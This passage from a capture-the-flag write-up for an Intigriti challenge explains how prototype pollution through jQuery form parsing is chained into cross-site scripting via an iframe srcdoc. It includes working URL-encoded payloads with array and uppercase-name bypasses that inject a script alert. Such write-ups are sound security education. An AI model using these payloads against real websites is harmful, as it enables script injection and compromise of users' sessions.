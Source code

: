 Now we get a new error because `homepage` needs to be a string 😺

```js
Uncaught (in promise) TypeError: repo.homepage.startsWith is not a function
```

Actually, there's another way to get around this error. If there are any uppercase characters in the attribute name, it will be converted using `toLowerCase`, which will change the execution flow in such a way that jQuery will skip the `i in []` check will. We [test it](https://challenge-0124.intigriti.io/challenge?name=%3Cform%20id%3D%22search%22%3E%3Cinput%20name%3D%22__proto__%5BOwneR%5D%22%20value%3D%22cat%22%3E%3Cinput%20name%3D%22__proto__%5BHOMEPAGE%5D%22%20value%3D%22https%3A%2F%2Fcrypto.cat%22%3E%3C%2Fform%3E&search=test) and confirm there are no errors!

```html
name=
<form id="search"><input name="__proto__[OwneR]" value="cat" /><input name="__proto__[HOMEPAGE]" value="https://crypto.cat" /></form>
&search=test
```

Of the 37 submissions, 24 polluted the `owner` and `homepage`. Soon, we'll see how the remaining 13 solutions bypassed these requirements (without abusing the jQuery caching, as intended).

For the solutions that did set the `owner` and `homepage`, it's around this point that they begin to diverge 🔎

### XSS

So, how can we get XSS in an iframe? [HackTricks](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/iframes-in-xss-and-csp#iframes-in-xss) suggests using `src` or `srcdoc`. The `src` attribute is already assigned `repo.homepage` (which must begin with `https://`), so let's try `srcdoc` 🤞

#### srcdoc

We submit our [URL-encoded payload](<https://challenge-0124.intigriti.io/challenge?name=%3Cform+id=%22search%22%3E%3Cinput+name=%22__proto__[srcdoc]%22+value=%22%3Cscript%3Ealert(document.domain)%3C/script%3E%22+/%3E%3Cinput+name=%22__proto__[owner]%22+value=%22cat%22+/%3E%3Cinput+name=%22__proto__[homepage]%22+value=%22https://crypto.cat%22+/%3E%3C/form%3E&search=test>)

```html
<form id="search">
    <input name="__proto__[srcdoc]" value="<script>alert(document.domain)</script>" />
    <input name="__proto__[owner]" value="cat" />
    <input name="__proto__[homepage]" value="https://crypto.cat" />
</form>
```

We don't get an alert 😿 But wait, what about that array trick we saw earlier? Let's change `[srcdoc]` to `[srcdoc][]`. Now [we get an alert](<https://challenge-0124.intigriti.io/challenge?name=%3Cform+id=%22search%22%3E%3Cinput+name=%22__proto__[srcdoc][]%22+value=%22%3Cscript%3Ealert(document.domain)%3C/script%3E%22+/%3E%3Cinput+name=%22__proto__[owner]%22+value=%22cat%22+/%3E%3Cinput+name=%22__proto__[homepage]%22+value=%22https://crypto.cat%22+/%3E%3C/form%3E&search=test>)!

Let's also try the uppercase trick; change `[srcdoc]` to `[Srcdoc]`. [It works too](<https://challenge-0124.intigriti.io/challenge?name=%3Cform+id=%22search%22%3E%3Cinput+name=%22__proto__[SRCDOC]%22+value=%22%3Cscript%3Ealert(document.domain)%3C/script%3E%22+/%3E%3Cinput+name=%22__proto__[owner]%22+value=%22cat%22+/%3E%3Cinput+name=%22__proto__[homepage]%22+value=%22https://crypto.cat%22+/%3E%3C/form%3E&search=test>)!

